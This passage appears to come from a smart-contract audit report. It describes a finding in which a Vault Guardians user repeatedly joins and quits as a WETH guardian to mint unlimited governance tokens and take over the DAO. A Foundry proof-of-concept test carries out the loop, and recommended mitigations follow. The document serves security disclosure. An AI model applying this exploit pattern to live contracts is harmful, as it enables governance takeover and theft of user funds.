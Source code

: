 1. User becomes WETH guardian and is minted vgTokens.
2. User quits, is given back original WETH allocation.
3. User becomes WETH guardian with the same initial allocation.
4. Repeat to keep minting vgTokens indefinitely.

Place the following code into `VaultGuardiansBaseTest.t.sol`

```javascript
    function testDaoTakeover() public hasGuardian hasTokenGuardian {
        address maliciousGuardian = makeAddr("maliciousGuardian");
        uint256 startingVoterUsdcBalance = usdc.balanceOf(maliciousGuardian);
        uint256 startingVoterWethBalance = weth.balanceOf(maliciousGuardian);
        assertEq(startingVoterUsdcBalance, 0);
        assertEq(startingVoterWethBalance, 0);

        VaultGuardianGovernor governor = VaultGuardianGovernor(payable(vaultGuardians.owner()));
        VaultGuardianToken vgToken = VaultGuardianToken(address(governor.token()));

        // Flash loan the tokens, or just buy a bunch for 1 block
        weth.mint(mintAmount, maliciousGuardian); // The same amount as the other guardians
        uint256 startingMaliciousVGTokenBalance = vgToken.balanceOf(maliciousGuardian);
        uint256 startingRegularVGTokenBalance = vgToken.balanceOf(guardian);
        console.log("Malicious vgToken Balance:\t", startingMaliciousVGTokenBalance);
        console.log("Regular vgToken Balance:\t", startingRegularVGTokenBalance);

        // Malicious Guardian farms tokens
        vm.startPrank(maliciousGuardian);
        weth.approve(address(vaultGuardians), type(uint256).max);
        for (uint256 i; i < 10; i++) {
            address maliciousWethSharesVault = vaultGuardians.becomeGuardian(allocationData);
            IERC20(maliciousWethSharesVault).approve(
                address(vaultGuardians),
                IERC20(maliciousWethSharesVault).balanceOf(maliciousGuardian)
            );
            vaultGuardians.quitGuardian();
        }
        vm.stopPrank();

        uint256 endingMaliciousVGTokenBalance = vgToken.balanceOf(maliciousGuardian);
        uint256 endingRegularVGTokenBalance = vgToken.balanceOf(guardian);
        console.log("Malicious vgToken Balance:\t", endingMaliciousVGTokenBalance);
        console.log("Regular vgToken Balance:\t", endingRegularVGTokenBalance);
    }

```

**Recommended Mitigation:** There are a few options to fix this issue:

1. Mint vgTokens on a vesting schedule after a user becomes a guardian.
2. vBurn vgTokens when a guardian quits.
3. Simply don't allocate vgTokens to guardians. Instead, mint the total supply on contract deployment.

### [M-1] Potentially incorrect voting period and delay in governor may affect governance
